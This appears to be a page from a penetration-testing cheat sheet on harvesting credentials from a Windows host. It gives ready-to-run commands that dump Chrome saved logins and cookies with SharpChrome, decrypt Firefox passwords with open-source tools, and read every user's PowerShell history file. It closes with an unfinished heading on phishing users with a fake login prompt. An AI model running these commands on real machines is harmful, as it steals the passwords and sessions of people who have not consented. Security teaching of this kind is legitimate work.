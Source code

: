 ## Browser Credentials

{% tabs %}
{% tab title="Chrome" %}
**Retrieving Saved Credentials from Chrome**

Users often store credentials in their browsers for applications that they frequently visit. We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```shell
.\SharpChrome.exe logins /unprotect
```
{% endtab %}

{% tab title="Firefox" %}
Methodology for cracking Mozilla-protected passwords using open source tools:

```bash
# Method 1:
## Download: key4.db and logins.json
git clone https://github.com/lclevy/firepwd && cd firepwd
python3 firepwd.py key4.db logins.json
python3 firepwd.py key4.db
```

```bash
# Method 2:
## Download: key4.db, logins.json, cert9.db and cookies.sqlite
git clone https://github.com/unode/firefox_decrypt && cd firefox_decrypt
python3 firefox_decrypt.py <DIRECTORY>
```
{% endtab %}
{% endtabs %}

## PowerShell History

Starting with Powershell 5.0 on Windows 10, PowerShell stores the command history in the file:

```powershell
(Get-PSReadlineOption).HistorySavePath # Get the Powershell history path of the current users.
gc (Get-PSReadLineOption).HistorySavePath # Read current history file
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt # Read current history file
Get-ChildItem C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt # Check the Powershell history of all users
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue} # Check the Powershell history of all users
```

## Phishing

With a PowerShell oneliner, we can show the user a window to make him think that authentication failed and that he needs to enter his credentials.
